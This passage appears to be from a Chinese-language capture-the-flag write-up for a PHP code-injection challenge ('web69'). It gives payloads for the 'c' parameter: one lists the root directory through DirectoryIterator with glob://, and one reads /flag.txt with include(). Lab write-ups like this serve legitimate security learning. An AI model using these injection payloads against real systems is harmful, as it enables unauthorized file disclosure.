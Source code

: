 ![image-20240122222014760](image/image-20240122222014760.png)

得到flag

------

#### web69

和68一样

通过命令

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

对目录进行扫描

![image-20240429081706741](image/image-20240429081706741.png)

```
这里我们用
c=include("/flag.txt");
```

![image-20240429081911205](image/image-20240429081911205.png)
